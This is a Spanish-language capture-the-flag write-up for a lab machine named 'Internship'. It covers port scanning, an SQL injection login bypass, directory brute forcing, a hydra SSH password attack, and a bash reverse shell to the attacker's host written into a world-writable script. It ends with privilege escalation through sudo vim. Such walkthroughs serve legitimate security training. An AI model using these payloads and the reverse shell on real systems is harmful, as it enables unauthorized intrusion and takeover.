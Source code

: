 ```yaml
---
description: '✍️ Autor: s1egfr1ed🔍 Dificultad: Muy Fácil 📅 Fecha de creación: 13/02/2025'
---
```


# Internship

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Viendo el código fuente encontramos un dominio por lo que lo añadimos al `/etc/hosts`.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 193843.png" alt=""><figcaption></figcaption></figure>

Recargamos la página y pulsamos a Iniciar Sesión. Al ser un panel de Login realizamos el típico bypass para probar.

```
' or 1=1 -- -
' or 1=1 -- -
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Vemos que hay unos usuarios por lo que ponemos los nombres en un archivo para realizar fuerza bruta. Nos falta la contraseña por lo que seguimos indagando por lo que escaneamos los directorios.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención de un directorio llamado `/spam`. A primera vista nos sale vacío pero revisamos el código fuente.

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Parece que contiene información relevante pero esta en ROT13.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-26 195359.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ahora sí tras descubrir la contraseña hacemos fuerza bruta.

```
hydra -L usuarios -p purpl3 -I ssh://172.17.0.2 
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

```bash
ssh pedro@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Dentro del directorio `/opt`, encontramos el script `log_cleaner.sh`, el cual pertenece al usuario `valentina` y tiene permisos de lectura, escritura y ejecución para su propietario, así como permisos de lectura y escritura para otros usuarios.

```bash
#!/bin/bash
bash -i >& /dev/tcp/172.17.0.1/445 0>&1
```

Nos ponemos en escucha.

```
nc -nlvp 445
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Vemos que hay una imagen por lo que nos la traemos a nuestra máquina para realizar la técnica de esteganografía.

```bash
mv profile_picture.jpeg /tmp
chmod 0777 /tmp/profile_picture.jpeg
```

En nuestra máquina local.

```bash
scp pedro@172.17.0.2:/tmp/profile_picture.jpeg .
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Usamos la herramienta de **Steghide**.

```
steghide extract -sf profile_picture.jpeg
```

Miramos el contenido del archivo.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Será la contraseña de valentina.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/vim/#sudo" %}

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

